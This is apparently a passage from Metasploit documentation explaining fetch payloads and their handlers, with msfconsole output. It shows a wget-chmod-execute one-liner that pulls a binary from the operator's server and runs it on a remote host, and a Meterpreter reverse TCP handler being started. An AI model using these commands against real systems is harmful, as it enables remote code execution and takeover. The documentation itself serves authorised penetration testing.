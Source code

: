 You can see the fetch payload generated:
`wget -qO ./YXeSdwsoEfOH http://10.5.135.201:8000/3cP1jDrJ3uWM1WrsRx3HTw; chmod +x ./YXeSdwsoEfOH; ./YXeSdwsoEfOH &`
This command downloads the served payload, marks it as executable, and then executes it on the remote host.

### Starting the Fetch Server
When you start the `Fetch Handler`, it starts both the server hosting the binary payload *and* the listener for the
served payload.  With `verbose` set to `true`, you can see both the Fetch Handler and the Served Payload Handler are
started:
```msf
msf payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > to_handler
[*] wget -qO ./YBybOrAmkV http://10.5.135.201:8000/3cP1jDrJ3uWM1WrsRx3HTw; chmod +x ./YBybOrAmkV; ./YBybOrAmkV &
[*] Payload Handler Started as Job 0
[*] Fetch Handler listening on 10.5.135.201:8000
[*] http server started
[*] Started reverse TCP handler on 10.5.135.201:4567 
```

### Fetch Handlers and Served Payload Handlers
The Fetch Handler is tracked with the Served Payload Handler, so you will only see the Served Payload Handler under
`Jobs`, even though the Fetch Handler is listening:
```msf
msf payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > jobs -l

Jobs
====

  Id  Name                    Payload                                     Payload opts
  --  ----                    -------                                     ------------
  0   Exploit: multi/handler  cmd/linux/http/x64/meterpreter/reverse_tcp  tcp://10.5.135.201:4567

msf payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > netstat -ant | grep 8000
[*] exec: netstat -ant | grep 8000

tcp        0      0 10.5.135.201:8000       0.0.0.0:*               LISTEN     

```
Killing the Served Payload handler will kill the Fetch Handler as well:
```msf
msf payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > jobs -k 0
[*] Stopping the following job(s): 0
[*] Stopping job 0
msf payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > netstat -ant | grep 8000
[*] exec: netstat -ant | grep 8000

msf payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > 
```
